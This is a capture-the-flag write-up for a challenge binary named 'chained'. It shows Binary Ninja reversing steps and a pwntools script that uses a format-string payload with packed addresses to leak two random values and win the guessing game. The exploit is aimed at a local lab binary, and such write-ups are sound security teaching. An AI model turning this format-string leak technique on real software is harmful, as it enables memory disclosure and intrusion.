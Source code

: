 # [chained](https://github.com/ace-lii/ctf_writeups/blob/main/code/format_strings/chained)

* Open ***Binary Ninja*** as usual. Examine the main function to understand the logic. It generates two random numbers below 1000, sums them, and compares the result with the input.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained1.png?raw=true)


* Determine where these two random numbers are stored in memory using Binary Ninja.
* 
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained3.png?raw=true)

* Calculate the sum as you obtain values from the "random1/2" addresses. Use ***pwntools*** to play around with the chained.

```
from pwn import *

rdn1 = 0x0804a080
rdn2 = 0x0804a088

i = 13 # why 13 can use similar bash used in task2
sum = 0
p = process("./chained")
name = p32(rdn1) + p32(rdn2) + b" %" + str(i).encode() + b"$s " + b" %" + str(i + 1).encode() + b"$s"

print("\n\n--------------index is {} name is {}".format(i, name))

try:
    while True:
        prompt = p.recvline()
        print("\nprompt {}".format(prompt))

        if b"What is your name?" in prompt:
            p.sendline(name)
            try:
                prompt = p.recvline().strip(b"\x80\xa0\x04\x08\x88\xa0\x04\x08").strip()
                rdn1_val = int(prompt.split(b" ")[0])
                rdn2_val = int(prompt.split(b" ")[2])
                sum = rdn1_val + rdn2_val
                print("sum = {} r1 = {} r2 ={}".format(sum, rdn1_val, rdn2_val))
            except:
                pass
        elif b"Im thinking" in prompt:
            p.sendline(str(sum).encode())
            print(p.recvall())
            break
        elif b"totally wrong" in prompt:
            print("Reached the end of interaction")
        else:
            continue

except EOFError:
    print("EOFError: Process exited unexpectedly")

p.close()
```


![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained2.png?raw=true)

 

 
